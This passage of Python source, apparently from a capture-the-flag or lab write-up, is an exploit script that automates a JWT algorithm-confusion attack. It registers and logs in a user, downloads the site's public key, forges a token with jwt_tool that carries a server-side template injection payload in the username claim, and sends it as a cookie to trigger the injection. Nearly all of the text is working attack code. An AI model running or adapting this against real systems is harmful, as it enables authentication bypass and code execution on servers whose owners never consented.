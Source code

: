 ```python

    command = [
    "python", f"{JWT_TOOL_PATH}/jwt_tool.py", token, "-X", "k", "-pk", "./recovered_public.key", "-I", "-pc", "username", "-pv", SSTI_PAYLOAD
    ]

    # Run jwt_tool and capture the output
    result = subprocess.run(command, capture_output=True, text=True)

    # Extract the modified token from jwt_tool output
    for line in result.stdout.splitlines():
        if line.startswith("[+] "):
            modified_token = line.split(" ")[1].strip()
            print(f"[*] Modified JWT: {modified_token}")
            return modified_token

    print(f"[!] Modified JWT not found in jwt_tool output")
    return None

# Test SSTI injection
def test_ssti(modified_token):
    cookies = {'token': modified_token}
    print(f"[*] Sending modified JWT in cookies to test SSTI injection...")
    response = requests.get(CAT_URL, cookies=cookies)

    if response.status_code == 200:
        print("[*] SSTI payload executed successfully!")
        print(f"[*] Server response:\n{response.text}")
    else:
        print(
            f"[!] SSTI execution failed: {response.status_code} - {response.text}")

def main():
    username = "cat"
    password = "cat"

    # Step 1: Register user
    if not register_user(username, password):
        print("[!] Failed to register user.")
        return

    # Step 2: Login and retrieve JWT
    jwt_token = login_user(username, password)
    if not jwt_token:
        print("[!] Failed to retrieve JWT.")
        return

    # Step 3: Download JWK (public key)
    jwk = download_jwk()
    if not jwk:
        print("[!] Failed to download JWK.")
        return

    # Step 4: Recreate public key PEM from JWK
    rsa_public_key_from_jwk(jwk)

    # Step 5: Modify JWT claim (inject payload) using jwt_tool
    modified_jwt = modify_jwt_with_tool(jwt_token)
    if not modified_jwt:
        print("[!] Failed to modify JWT using jwt_tool.")
        return

    # Step 6: Test SSTI injection by sending the modified JWT
```